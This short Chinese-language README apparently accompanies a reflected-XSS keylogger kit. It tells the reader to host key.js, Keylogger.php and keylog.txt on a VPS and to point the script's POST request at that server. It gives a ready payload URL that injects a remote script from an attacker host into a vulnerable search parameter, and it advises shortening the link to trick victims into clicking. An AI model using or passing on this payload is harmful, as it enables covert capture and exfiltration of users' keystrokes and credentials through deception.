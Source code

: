  反射型Xss

 将key.js，keylog.txt，Keylogger.php放在vps网站目录下
 
 js中的http.open("POST","http://172.16.0.106/study/Keylogger/keylogger.php",true); 路径换位你的keylogger.php的路径
 
 键盘记录结果存为keylog.txt


 Payload：http://xssvuln/?search=<script src='http://172.16.0.106/study/Keylogger/key.js'></script># 转换为短地址，诱骗点击
